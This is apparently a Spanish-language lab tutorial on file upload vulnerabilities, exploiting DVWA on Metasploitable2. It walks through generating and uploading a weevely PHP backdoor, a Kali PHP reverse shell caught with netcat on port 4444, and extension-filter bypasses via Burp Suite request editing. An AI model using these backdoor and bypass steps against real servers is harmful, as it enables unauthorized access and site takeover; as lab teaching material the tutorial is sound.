


# VULNERABILIDAD FILE UPLOAD
Es un tipo de vulnerabilidad que ocurre en aplicaciones web en donde existe la posibilidad de subir un archivo sin que sea comprobado por un sistema de seguridad; por ejemplo, una web shell en .php y ser ejecutada en el mismo servidor.
PELIGROS
El atacante una vez que haya ganado acceso al servidor puede colocar una página de phishing en el sitio web o incrustar malware, así como también puede ser capaz de causar un ataque de Denegación de Servicio (DoS) al subir archivos de gran tamaño.
¿Qué es un 'Reverse Shell'?
Una reverse shell, también conocida como shell inversa, es una especie de "servidor" en donde el atacante ejecuta un software que queda a escucha de solicitudes de conexiones en un determinado puerto, la máquina objetivo se conecta al servidor y entonces es así como el atacante gana una shell para ejecutar comandos remotamente (sin interfaz gráfica).

Atacante: Inicia un servidor a escucha en el puerto 4444.
Víctima: Se conecta al servidor.
Atacante: Obtiene una shell remota de la máquina víctima.
Método GET y POST HTTP
El protocolo HTTP es utilizado para conectar un cliente a un servidor a través de métodos de petición para ejecutar la acción que se desea realizar.
Método GET: Se utiliza para pedir información al servidor, los datos son enviados de forma visible en la URL.
Por ejemplo:
$ http://www.myweb.com/action.php?nombre=wilson&apellidos1=smithEl atacante lo que hace aquí es interceptar la petición HTTP y luego la modifica para cambiar la extensión del archivo.
Método POST: Se utiliza para subir un archivo o loguearse en el sitio web, los datos son enviados de forma codificada (no visible); siendo está la más segura.
Por ejemplo:
$ http://www.myweb.com/action.php

# WEEVELY
Weevely es una herramienta de administración de webshell escrita en python, sirve para crear backdoors en .PHP y contiene más de 30 módulos para testear tareas administrativas; mantener acceso, elevar privilegios y difundirse en la red. Cabe recalcar que un black hat podría utilizar esta vulnerabilidad para obtener acceso de administrador y desconfigurar la web, ya sea borrar la base de datos como un defacement.
Instalar herramienta en Debian:
$ sudo apt-get install weevelyA continuación, haré uso de la máquina Metasploitable2 ya que viene incorporada con vulnerabilidades para explotar en un entorno controlado y legal.

Servidor local: http://192.168.25.128/dvwa/login.php
DVWA (Damn Vulnerable Web Application) es una aplicación web PHP/MySQL vulnerable. Su objetivo es ayudar a los profesionales de seguridad a probar sus habilidades y herramientas en un entorno controlado y legal.
Debajo se encuentran las credenciales.
Usuario: admin
Contraseña: password

Si nos dirigimos a seguridad de DVWA, podemos establecer el nivel del mismo, escogeré el nivel bajo para obtener acceso solamente usando weevely.

Lo siguiente es abrir una nueva terminal y crear la puerta trasera (backdoor) con weevely que nos dará acceso al servidor:
$ weevely generate <contraseña_de_nuestro_backdoor> <nombre.php>
Regresamos a la aplicación web e iremos a donde dice "Upload" y subimos nuestro backdoor generado.

El backdoor ha sido subido exitosamente. Devuelve una ruta el cual debemos de copiar y unirla con la URL del servidor, quedaría de la siguiente forma:
$ http://192.168.25.128/dvwa/hackable/uploads/backdoor.phpNuevamente nos dirigimos a la terminal y ejecutamos el siguiente comando:
$ weevely <URL> <contraseña_del_backdoor>Esto nos dará acceso remoto al servidor:


# Detalles
Si quisieramos hacerlo manual, Kali trae consigo una colección de webshells en el directorio /usr/share/webshells/ a utilizar. En este caso, se hará uso de una reverse shell en PHP.
$ cp /usr/share/webshells/php/php-reverse-shell.php .
Luego editamos el código con un IDE, por ejemplo nano o vim. En la variable $ip introducimos la IP local de nuestra máquina atacante y en la variable $port el puerto escucha; que puede ser cualquiera.

Subimos nuestra reverse shell y copiamos la URL -> http://192.168.25.128/dvwa/hackable/uploads/php-reverse-shell.php

Abrimos una nueva terminal y ponemos a escucha el puerto 4444 con Netcat:
$ nc -lvp 4444
Recargamos la URL que copiamos y al regresar a la terminal ya tendremos acceso al servidor:

# WEEVELY + BURP SUITE
Burp Suite es una poderosa herramienta escrita en Java que permite realizar pruebas de seguridad de aplicaciones web, cuenta con una versión gratuita y de paga. Su función básica se encuentra en el servidor proxy que permite interceptar el tráfico entre el navegador y aplicación destino, el cual posibilita inspeccionarlo y modificarlo.
Es compatible con diversos sistemas operativos como Windows, GNU/Linux, Mac: https://portswigger.net/burp/communitydownload
Tutoriales de Burp Suite desde cero: https://www.manusoft.es/tutorial-burp-suite/
Esta vez subiré la seguridad del servidor DVWA a medio. Lo siguiente será configurar un servidor proxy para que registre todo el tráfico que se genere en el navegador web, para ello debemos ejecutar Burp Suite e ir a la pestaña de Proxy -> Options y verificar si tenemos el proxy como se muestra a continuación:

Luego en el navegador, por ejemplo Firefox ir a Preferencias -> Avanzadas -> Proxy de Red -> Configuración -> Configuración Manual del Proxy
En Proxy HTTP escribir 127.0.0.1, en Puerto escribir 8080 y tildar el mismo proxy para todo:

En Burp Suite debemos verificar en la pestaña Proxy -> Intercept que esté en Intercept is on:

Cuando comenzamos hacer peticiones en el navegador, como por ejemplo ir a una página web, Burp Suite debe Interceptar la petición y allí podemos modificarla. Si volvemos a subir el mismo backdoor nos tirará un error porque al aumentar la seguridad solo nos permite subir un archivo con extensión .jpg.

Al backdoor.php lo renombramos a .jpg y volvemos a subirlo:

La petición ha sido interceptada, ahora solo quedaría con renombrar el backdoor (línea 20) a .php desde Burp Suite:

Daremos clic en Forward para redireccionar la petición al servidor y que esté la procesé:

Seguidamente, repetimos los pasos en nuestra shell con weevely:
$ weevely <URL> <contraseña_del_backdoor>
Por último, aumenté la seguridad en alta y lo único que hay que hacer es renombrar el backdoor.jpg a backdoor.php.jpg y volver a subirlo:


Al presionar nuevamente en Forward el archivo se subió exitosamente, por lo cual podemos repetir los mismos pasos anteriores para obtener el acceso solamente que la URL iría hasta .php y no .jpg.


Es una vulnerabilidad muy peligrosa que permite a un atacante apropiarse de una página web por medio de un reverse shell o puerta trasera. Como seguridad recomiendo que nunca permitan que los usuarios puedan subir arhivos ejecutables (.php, .exe, .bat, .sh, etc), agregar una lista negra como sistema de protección para analizar el archivo y la extensión.